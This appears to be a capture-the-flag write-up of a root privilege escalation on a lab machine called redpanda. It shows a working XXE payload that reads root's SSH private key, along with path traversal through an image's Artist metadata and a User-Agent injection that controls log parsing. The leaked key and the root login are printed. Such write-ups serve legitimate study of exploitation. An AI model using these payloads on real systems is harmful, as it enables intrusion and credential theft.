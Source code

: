 ## Enumeration
Use pspy to find what looks like some cronjobs
```bash
2022/08/22 20:26:22 CMD: UID=0    PID=1      | /sbin/init maybe-ubiquity 
2022/08/22 20:28:01 CMD: UID=0    PID=37639  | /bin/sh -c /root/run_credits.sh 
2022/08/22 20:28:01 CMD: UID=0    PID=37638  | /bin/sh -c /root/run_credits.sh 
2022/08/22 20:28:01 CMD: UID=0    PID=37637  | /usr/sbin/CRON -f 
2022/08/22 20:28:01 CMD: UID=0    PID=37640  | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar
```
Looking around in /opt reveals the java source file that ```/opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar``` is built from: ```/opt/credit-score/LogParser/final/src/main/java/com/logparser/App.java```

## Static code analysis
Looking at the java source file shows that this cronjob is parsing a log file that my user can read every minute or so. 
```java
// Main method for App.java. All comments in this code block were added by me.
public static void main(String[] args) throws JDOMException, IOException, JpegProcessingException {
		                      // log file that the jar is parsing every minute
        File log_fd = new File("/opt/panda_search/redpanda.log");
        Scanner log_reader = new Scanner(log_fd);
        while(log_reader.hasNextLine())
        {
	        // This line will grab one line at a time from the log file
            String line = log_reader.nextLine();
            // The "isImage" method checks for the string "jpg" in the log entry
	            // Should be noted that it doesn't make sure that the requested file is a jpg, which is what this method is trying to do.
	            // Putting "jpg" into the useragent will bypass this check  
            if(!isImage(line))
            {
                continue;
            }
            // Parses log entry into a hash map which is basically a python dictionary
            Map parsed_data = parseLog(line);
            // This is the URI that the user was navigating to when the log entry was made
            System.out.println(parsed_data.get("uri"));
            // See below...
            String artist = getArtist(parsed_data.get("uri").toString());
            System.out.println("Artist: " + artist);
            // Take the artist that was just found and use it to create this path.
            // Again, there is no sanitization on the artist variable, which allows for a directory traversal payload here
            String xmlPath = "/credits/" + artist + "_creds.xml";
            // See below...
            addViewTo(xmlPath, parsed_data.get("uri").toString());
        }
    }

// This method attempts to retrieve the Metadata value for the 'Artist' key on the image that was specified in the provided uri
public static String getArtist(String uri) throws IOException, JpegProcessingException
    {
		                  // This path is not writable by my user, but there is no sanitization in place for the uri variable. So a directory traveral
		                  // payload in the uri variable can all for any file to be passed in here.    
        String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
        File jpgFile = new File(fullpath);
        // This line will throw an error if the given file is not an image
        Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
        for(Directory dir : metadata.getDirectories())
        {
            for(Tag tag : dir.getTags())
            {
                if(tag.getTagName() == "Artist")
                {
                    // If a metadata key of "Artist" is found, its value will be returned.
                    return tag.getDescription();
                }
            }
        }
        return "N/A";

// This method does a bunch of stuff that isn't too important
// The important part is that it is parsing an XML file that is provided through the path parameter
// Arbitrary XML parsing -> XXE
public static void addViewTo(String path, String uri) throws JDOMException, IOException
    {
        SAXBuilder saxBuilder = new SAXBuilder();
        XMLOutputter xmlOutput = new XMLOutputter();
        xmlOutput.setFormat(Format.getPrettyFormat());
        File fd = new File(path);
        Document doc = saxBuilder.build(fd);
        Element rootElement = doc.getRootElement();
        for(Element el: rootElement.getChildren())
        {
            if(el.getName() == "image")
            {
                if(el.getChild("uri").getText().equals(uri))
                {
                    Integer totalviews = Integer.parseInt(rootElement.getChild("totalviews").getText()) + 1;
                    System.out.println("Total views:" + Integer.toString(totalviews));
                    rootElement.getChild("totalviews").setText(Integer.toString(totalviews));
                    Integer views = Integer.parseInt(el.getChild("views").getText());
                    el.getChild("views").setText(Integer.toString(views + 1));
                }
            }
        }
        BufferedWriter writer = new BufferedWriter(new FileWriter(fd));
        xmlOutput.output(doc, writer);
    }
```

## XXE
Now that I've reviewed the static source code, it's time to attempt an XXE attack.
For this to work, there are a few things I need to prepare.
1. I need a jpg file on the host with a metadata entry for "Author". The value of this entry should be a directory traversal payload to a XML file that I can control. In this case, I stole one of the images that was already on the web server and edited the Author entry to point to a file in /tmp. (Note from the main method of App.java that "\_creds.xml" is appended to the provided value)
```bash
$ exiftool angy.jpg                                                
ExifTool Version Number         : 12.44
File Name                       : angy.jpg
Directory                       : .
[Truncated]
Artist                          : ../tmp/test
[Truncated]
```
2. Next, there needs to be a valid XML file that matches the name of the one provided in the metadata. This file should include an XXE payload for reading a file. In this case, I guessed there would be a private key in the root users .ssh directory and tried for that. 
```bash
root@redpanda:/tmp $ cat test_creds.xml 
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///root/.ssh/id_rsa'>]><root>&test;</root>
```
Now that all the preparations are made, it's time to create the log entries. Trying to navigate to a uri that contains a path traversal didn't work for me; for some reason it wouldn't ever show up in the log. Due to how the parsing method is identifying the uri, there is an easy way around this.
```java
public static Map parseLog(String line) {
		// This function takes the raw log entry and splits in on "||"
        String[] strings = line.split("\\|\\|");
        Map map = new HashMap<>();
        // Entries into the map are created based of indexing of the split input...
        map.put("status_code", Integer.parseInt(strings[0]));
        map.put("ip", strings[1]);
        map.put("user_agent", strings[2]);
        map.put("uri", strings[3]);

        return map;
    }
```
If it's not obvious from the code snippet, I can influence what goes into the map's "uri" entry by manually adding the split characters (||) to my User-Agent. So the request will look something like this:
![[Pasted image 20220824184906.png]]
Now, it doesn't matter what page I navigate to, because the parsing method will see those double bars in the User-Agent and grab the string right after it for the uri.
All that's left now is to wait for the cronjob to run. Checking the contents of the XML file about a minute later shows the private key I was looking for.
```bash
root@redpanda:/tmp $ cat test_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root>
<root>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</root>
```
Grab that key, and get a shell as the root user.
```bash
$ ssh -i root_rsa root@10.10.11.170
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

[Truncated]
 
root@redpanda:~# id
uid=0(root) gid=0(root) groups=0(root)
```